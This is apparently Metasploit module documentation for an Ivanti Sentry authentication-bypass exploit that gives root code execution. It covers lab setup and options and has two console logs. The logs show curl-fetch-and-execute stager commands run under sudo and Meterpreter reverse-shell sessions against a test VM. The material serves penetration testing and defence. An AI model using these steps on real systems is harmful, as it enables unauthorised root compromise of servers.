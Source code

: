 ## Vulnerable Application
Ivanti Sentry (formerly Mobileiron Sentry) is vulnerable to an authentication by-pass which exposes API functionality which
allows for code execution in the context of the root user. The vulnerable endpoint `/mics/services/MICSLogService` exposes
a binary web service protocol 'Hessian' which allows remote users to invoke functions within the target. One of the functions
accessible via Hessian and the vulnerable endpoint is `uploadFileUsingFileInput` which accepts a `command` argument
that gets directly fed into a `Runtime.getRuntime().exec(cmd)` call. The command is run in the context of the `tomcat2`
user however by default `tomcat2` is able to execute commands with sudo thus we can use this to execute the payload in the context
of the `root` user.


## Verification Steps
1. Start `msfconsole`
1. Do: `use exploit/linux/http/ivanti_sentry_misc_log_service`
1. Do: `set RHOST [IP]`
1. Do: `set FETCH_SRVHOST [IP]`
1. Do: `set LHOST [IP]`
1. Do: `exploit`


### Installation
A vulnerable instance of the software can be downloaded with the following
[link](https://mobileironsentry.blob.core.windows.net/mobileironsentrycontainer/sentry-mobileiron-9.12.0-16.vhd)
(note the .vhd file is ~34 GB). Once downloaded, import the file into your favorite hypervisor to run the software.
VMware Fusion 12 with the Sentry VM configured with a bridged network adapter worked best for testing. The .vhd file is
configured to run with 256MB of RAM and 1 CPU. When first booted the VM appears to hang with the following message displayed:
```
Probing EDD (edd=off) ...
```
By increasing the RAM to somewhere around 8GB and providing more than 1 CPU core the `Probing EDD (edd=off) ...` message
goes away after a couple of seconds and the `EULA` should appear and Sentry configuration will begin.
Inputting defaults for everything should be satisfactory.

Once finished with the configuration input `show ip route` to get the IP address of the machine. Before running the module
check to ensure the MICS service is up and running by navigating to `https://<ip-address>:8443/` in a browser. If there
is no response, try restarting the VM - this is a
[known issue](https://forums.ivanti.com/s/question/0D54O00006zkSs0SAE/unable-to-contact-mics-service?language=en_US)
that rebooting the VM can resolve.

## Options

### SLEEP
Because the execution context does not allow for command piping or chaining we need to split the multi command payload
by semi-colon and send each command individually. This delay specifies how long to wait for each command to run.

### USE_SUDO
The command is executed in the context of the `tomcat2` user. By default the `tomcat2` user has the ability to execute
commands with `sudo`. In the event Sentry is installed on an OS that doesn't have the `sudo` binary, this has been left
has a configurable option in case it needs to be disabled.

## Scenarios

### MobileIron Sentry 9.12.0-16 (Unix In Memory)
```
msf6 > use linux/http/ivanti_sentry_misc_log_service
[*] Using configured payload cmd/linux/http/x64/meterpreter_reverse_tcp
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set rhosts 192.168.1.87
rhosts => 192.168.1.87
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set lhost 192.168.1.72
lhost => 192.168.1.72
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set fetch_srvhost 192.168.1.72
fetch_srvhost => 192.168.1.72
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set verbose true
verbose => true
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > run

[*] Command to run on remote host: curl -so /tmp/VuQctuYoROm http://192.168.1.72:8080/_acSmp3HzcREnJ2MMRBPoQ; chmod +x /tmp/VuQctuYoROm; /tmp/VuQctuYoROm &
[*] Fetch Handler listening on 192.168.1.72:8080
[*] HTTP server started
[*] Adding resource /_acSmp3HzcREnJ2MMRBPoQ
[*] Started reverse TCP handler on 192.168.1.72:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Executing Unix (In-Memory) for cmd/linux/http/x64/meterpreter_reverse_tcp
[*] Running the command: sudo sh -c $@|sh . echo curl -so /tmp/VuQctuYoROm http://192.168.1.72:8080/_acSmp3HzcREnJ2MMRBPoQ; chmod +x /tmp/VuQctuYoROm; /tmp/VuQctuYoROm &
[*] Client 192.168.1.87 requested /_acSmp3HzcREnJ2MMRBPoQ
[*] Sending payload to 192.168.1.87 (curl/7.29.0)
[*] Meterpreter session 4 opened (192.168.1.72:4444 -> 192.168.1.87:46828) at 2023-09-12 14:51:44 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : CentOS 7.8.2003 (Linux 3.10.0-1160.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > exit
```

### MobileIron Sentry 9.12.0-19 (Linux Dropper)

```
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set rhosts 192.168.1.87
rhosts => 192.168.1.87
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set lhost 192.168.1.72
lhost => 192.168.1.72
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set fetch_srvhost 192.168.1.72
fetch_srvhost => 192.168.1.72
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set verbose true
verbose => true
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > run

[*] Started reverse TCP handler on 192.168.1.72:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.1.72:8080/p1EzQTA94FH
[*] Generated command stager: ["curl -so /tmp/zzEjCUHC http://192.168.1.72:8080/p1EzQTA94FH;chmod +x /tmp/zzEjCUHC;/tmp/zzEjCUHC;rm -f /tmp/zzEjCUHC"]
[*] Running the command: sudo sh -c $@|sh . echo curl -so /tmp/zzEjCUHC http://192.168.1.72:8080/p1EzQTA94FH;chmod +x /tmp/zzEjCUHC;/tmp/zzEjCUHC;rm -f /tmp/zzEjCUHC
[*] Client 192.168.1.87 (curl/7.29.0) requested /p1EzQTA94FH
[*] Sending payload to 192.168.1.87 (curl/7.29.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.1.87
[*] Command Stager progress - 100.00% done (116/116 bytes)
[*] Meterpreter session 5 opened (192.168.1.72:4444 -> 192.168.1.87:46874) at 2023-09-12 15:04:40 -0400
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : CentOS 7.8.2003 (Linux 3.10.0-1160.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```


